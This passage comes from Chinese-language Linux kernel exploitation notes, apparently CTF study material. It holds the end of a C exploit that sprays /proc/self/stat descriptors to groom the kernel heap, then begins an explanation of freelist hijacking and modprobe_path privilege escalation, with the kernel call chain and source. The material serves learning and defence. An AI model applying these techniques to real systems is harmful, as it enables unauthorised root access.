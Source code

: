 ```c
    {
        seq_fd[i]=open("/proc/self/stat", O_RDONLY);
    }
    close(seq_fd[0x50]);

    save_kqueue(fd1,0xffffffff,0x40,0);

     for(int i=0;i<0x100;i++)
    {
       read(seq_fd[i], shellcode, 1); 
    }

    return 0;
}
```

Arbitrary Address Allocation（freelist 劫持）
=========================================

modprobe\_path提权
----------------

[https://h0pe-ay.github.io/%E5%88%A9%E7%94%A8modprobe\_path%E6%8F%90%E6%9D%83/](https://h0pe-ay.github.io/%E5%88%A9%E7%94%A8modprobe_path%E6%8F%90%E6%9D%83/)  
modprobe\_path中存储了一个名为modprobe的程序的路径，该程序用于向Linux 内核添加可加载内核模块或从内核中删除可加载内核模块。

在执行一个错误文件头的文件，会调用modprobe\_path指向的程序，调用路径如下

```bash
entry_SYSCALL_64()
    sys_execve()
        do_execve()
            do_execveat_common()
                bprm_execve()
                    exec_binprm()
                        search_binary_handler()
                            __request_module() // wrapped as request_module
                                call_modprobe()
```

其中 call\_modprobe() 定义于 kernel/kmod.c，我们主要关注这部分代码（以下来着内核源码 5.14）：

```c
static int call_modprobe(char *module_name, int wait)
{
    //...
    argv[0] = modprobe_path;
    argv[1] = "-q";
    argv[2] = "--";
    argv[3] = module_name;  /* check free_modprobe_argv() */
    argv[4] = NULL;

    info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                     NULL, free_modprobe_argv, NULL);
    if (!info)
        goto free_module_name;

    return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
    //...
```

